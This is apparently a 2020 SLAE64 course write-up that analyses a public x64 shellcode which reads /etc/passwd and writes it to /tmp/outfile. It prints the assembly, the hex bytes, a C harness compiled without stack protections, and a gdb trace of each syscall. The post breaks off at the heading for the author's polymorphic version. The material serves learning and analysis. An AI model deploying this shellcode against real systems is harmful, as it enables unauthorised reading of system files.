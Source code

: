 ```yaml
---
title: SLAE64 Assignment 6 - Polymorphic Copy `/etc/passwd` to `/tmp/`
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the sixth assignment of the SLAE64, I created three polymorphic payloads from shellcodes on shellstorm and the exploit db. This third payload reads `/etc/passwd` and writes the output to `/tmp/outfile`.


## Original Shellcode
The original shellcode by Chris Higgins can be found here: http://shell-storm.org/shellcode/files/shellcode-867.php
```nasm
; http://shell-storm.org/shellcode/files/shellcode-867.php
;Reads data from /etc/passwd to /tmp/outfile
;No null bytes
;Author: Chris Higgins <chris@chigs.me>
;        @ch1gg1ns -- github.com/chiggins
;        chigstuff.com
;Date:   3-27-2014
;Size:   118 bytes
;Tested: ArchLinux x86_64 3.13.6-1
Assembly:
        xor rax, rax
        mov al, 2
        xor rdi, rdi
        mov rbx, 0x647773
        push rbx
        mov rbx, 0x7361702f6374652f
        push rbx
        lea rdi, [rsp]
        xor rsi, rsi
        syscall
        mov rbx, rax
        xor rax, rax
        mov rdi, rbx
        mov rsi, rsp
        mov dx, 0xFFFF
        syscall
        mov r8, rax
        mov rax, rsp
        xor rbx, rbx
        push rbx
        mov rbx, 0x656c6966
        push rbx
        mov rbx, 0x74756f2f706d742f
        push rbx
        mov rbx, rax
        xor rax, rax
        mov al, 2
        lea rdi, [rsp]
        xor rsi, rsi
        push 0x66
        pop si
        syscall
        mov rdi, rax
        xor rax, rax
        mov al, 1
        lea rsi, [rbx]
        xor rdx, rdx
        mov rdx, r8
        syscall
```

## Testing & Analyzing the Original
First we will analyze the payload with GDB. Hopefully it works as intended!
+ Thankfully the author had already created the host `shellcode.c` program for us.
+ We will use his program and compile it with GCC.
```bash
root# gcc -m64 -z execstack -fno-stack-protector original-shellcode.c -o original-shellcode
root# gdb ./original-shellcode
GNU gdb (Debian 8.3.1-1) 8.3.1
gdb-peda$ b main
Breakpoint 1 at 0x1139
gdb-peda$ r
```
+ Awesome! So far so good!
+ We set a breakpoint on main. We will step through to the shellcode.

After stepping through his version it seems a little sketch. To play it safe, the shellcode was added to the `shellcode.c` program we are familiar with.

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x48\x31\xc0\xb0\x02\x48\x31\xff\xbb\x73\x77\x64\x00\x53\x48"
"\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\x8d\x3c\x24\x48"
"\x31\xf6\x0f\x05\x48\x89\xc3\x48\x31\xc0\x48\x89\xdf\x48\x89"
"\xe6\x66\xba\xff\xff\x0f\x05\x49\x89\xc0\x48\x89\xe0\x48\x31"
"\xdb\x53\xbb\x66\x69\x6c\x65\x53\x48\xbb\x2f\x74\x6d\x70\x2f"
"\x6f\x75\x74\x53\x48\x89\xc3\x48\x31\xc0\xb0\x02\x48\x8d\x3c"
"\x24\x48\x31\xf6\x6a\x66\x66\x5e\x0f\x05\x48\x89\xc7\x48\x31"
"\xc0\xb0\x01\x48\x8d\x33\x48\x31\xd2\x4c\x89\xc2\x0f\x05";
int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

#### Compile Host C Program
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# gdb ./shellcode
```

### 1st Open System Call
```c
int open(const char *pathname, int flags);
rax=0x2   rdi=&AbsFileName     rsi=0x0
open("/etc/passwd", O_RDONLY)           = 3
```

```bash
RAX: 0x2
RSI: 0x0
RDI: 0x7fffffffe368 ("/etc/passwd")
   <shellcode>:     xor    rax,rax
   <shellcode+3>:   mov    al,0x2    - open syscall
   <shellcode+5>:   xor    rdi,rdi
   <shellcode+8>:   mov    ebx,0x647773 - "swd"
   <shellcode+13>:  push   rbx
   <shellcode+14>:  movabs rbx,0x7361702f6374652f - "/etc/pas"
   <shellcode+24>:  push   rbx
   <shellcode+25>:  lea    rdi,[rsp] - &etcPasswd
   <shellcode+29>:  xor    rsi,rsi - no flags = 0_RDONLY
=> <shellcode+32>:  syscall
```

### Read System Call
```c
ssize_t read(int fd, void *buf, size_t count);
rax=0x0      rdi=fd  rsi=&Dest  rdx=len(2read)
```

```bash
   <shellcode+34>:  mov    rbx,rax - rbx = fd
   <shellcode+37>:  xor    rax,rax
   <shellcode+40>:  mov    rdi,rbx - rdi = fd
   <shellcode+43>:  mov    rsi,rsp - &Dest = Top of Stack
   <shellcode+46>:  mov    dx,0xffff - Read a crap ton of bytes
   <shellcode+50>:  syscall - read systemcall
```

### 2nd Open System Call
```c
int open(const char *pathname, int flags);
rax=0x2   rdi=&AbsFileName     rsi=0x0
```

```bash
RAX: 0x2
RSI: 0x66 ('f')
RDI: 0x7fffffffe350 ("/tmp/outfile")
   <shellcode+52>:  mov    r8,rax
   <shellcode+55>:  mov    rax,rsp
   <shellcode+58>:  xor    rbx,rbx
   <shellcode+61>:  push   rbx     - 0x00 Nulll Str Terminator
   <shellcode+62>:  mov    ebx,0x656c6966 - "file"
   <shellcode+67>:  push   rbx
   <shellcode+68>:  movabs rbx,0x74756f2f706d742f - "/tmp/out"
   <shellcode+78>:  push   rbx
   <shellcode+79>:  mov    rbx,rax
   <shellcode+82>:  xor    rax,rax
   <shellcode+85>:  mov    al,0x2    - open systemcall
   <shellcode+87>:  lea    rdi,[rsp] - rdi = &String
   <shellcode+91>:  xor    rsi,rsi
   <shellcode+94>:  push   0x66
   <shellcode+96>:  pop    si
   <shellcode+98>:  syscall

### Write System Call
```c
ssize_t write(int fd, const void *buf, size_t count);
rax= 0x1      rdi=fd  rsi=&Src        rdx=len(write)

```
 
```bash
   <shellcode+100>: mov    rdi,rax  - rdi = fd /tmp/outfile
   <shellcode+103>: xor    rax,rax
   <shellcode+106>: mov    al,0x1   - write systemcall
   <shellcode+108>: lea    rsi,[rbx]
   <shellcode+111>: xor    rdx,rdx
   <shellcode+114>: mov    rdx,r8
   <shellcode+117>: syscall
```
+ Well it is close to working, but unfortnately it does not.


## Polymorphic version
